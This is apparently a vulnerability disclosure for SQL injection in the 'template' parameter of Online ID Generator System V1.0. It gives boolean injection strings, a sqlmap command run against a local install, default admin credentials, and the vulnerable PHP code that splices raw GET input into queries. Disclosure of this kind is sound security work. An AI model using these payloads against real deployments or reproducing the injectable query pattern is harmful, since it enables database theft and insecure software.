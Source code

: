 # [Online ID Generator System-SQL Injection-generate/index.php-template]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/php/14917/online-id-generator-system-using-php-free-source-code.html

**[Affected Version]:** Online ID Generator System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"id_generator_db"**.

5. **Import** the provided **`SQL`** file. The file is known as **`id_generator_db.sql`** located inside the **database** folder.

6. **Browse** the **Online ID Generator System** in a **browser**. i.e. **`http://localhost/id_generator`**.

   **Admin Access Information:**

   Username: **admin**
   Password: **admin123**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://localhost/id_generator/admin/?page=generate&template=4`    

**[Vulnerability Location]:** id_generator/admin/generate/index.php

**[Vulnerability Test]:**

1. When you enter `4' and '1'='1` in the `template` parameter, the page displays as follows:

   ![](../../img/20240623005539.png)

   

2. When you enter `4' and '1'='2` in the `template` parameter, the page displays as follows:

   ![](../../img/20240623005843.png)

3. Testing with sqlmap

   ```
   python sqlmap.py -u "http://localhost/id_generator/admin/?page=generate&template=4" -p "template" --cookie="PHPSESSID=c6ikif3reuhfclaa66bo04s2sj" --current-db
   ```

   ![](../../img/20240623010229.png)

**[code analysis]:**

id_generator/admin/generate/index.php

```php
<?php 
    if(isset($_GET['template'])){
        $qry = $conn->query("SELECT * FROM `id_format` where id = '{$_GET['template']}' ");
        foreach($qry->fetch_assoc() as $k => $v){
            $$k = $v;
        }
    }
    if(isset($_GET['id'])){
        $qry = $conn->query("SELECT * FROM `generated_id` where id = '{$_GET['id']}' ");
        foreach($qry->fetch_assoc() as $k => $v){
            $meta[$k] = $v;
        }
    }
?>
```

The GET parameter `template` is obtained without any filtering and spliced directly into the sql execution statement, and then a different page response exists depending on the result of the execution.